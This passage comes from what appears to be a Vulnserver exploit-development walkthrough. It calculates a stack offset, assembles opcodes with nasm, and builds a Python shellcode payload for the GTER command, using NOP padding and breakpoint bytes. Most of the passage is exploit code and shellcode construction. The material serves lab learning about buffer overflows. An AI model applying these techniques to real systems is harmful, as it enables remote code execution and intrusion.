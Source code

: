 <div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gter2-bp-1.png">
</div>

Calculating the offset between this address and ESP to push the address in stack, because it changes dynamically for each call

```c
>>> 0xeaf9c0 - 0xeaf950
112
>>> hex(112)
'0x70'
```

Generating opcodes to store this address as our buffer pointer agument and push it to stack

```c
nasm > push esp
00000000  54                push esp
nasm > pop eax
00000000  58                pop eax
nasm > add eax,0x70
00000000  83C070            add eax,byte +0x70
nasm > push eax
00000000  50                push eax
```

Adding it to our python script,

```c                                                                     
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ cat buffer-pointer.py 
import socket, sys

file_descriptor=b""
file_descriptor+=b"\xcc"
file_descriptor+=b"\x54"
file_descriptor+=b"\x5b"
file_descriptor+=b"\x66\x81\xc3\x88\x01"

stack_adjustment=b""
stack_adjustment+=b"\x83\xec\x70"

flag_value=b""
flag_value+=b"\x31\xc0"
flag_value+=b"\x50"

buffer_size=b""
buffer_size+=b"\x80\xc4\x04"
buffer_size+=b"\x50"

buffer_pointer=b""
buffer_pointer+=b"\x54"
buffer_pointer+=b"\x58"
buffer_pointer+=b"\x83\xc0\x70"
buffer_pointer+=b"\x50"

payload=b""
payload+=b"\x90"*40
payload+=file_descriptor
payload+=stack_adjustment
payload+=flag_value
payload+=buffer_size
payload+=buffer_pointer
payload+=b"\x90"*(100-len(payload))
payload+=b"\xcc"
payload+=b"\x90"*50
```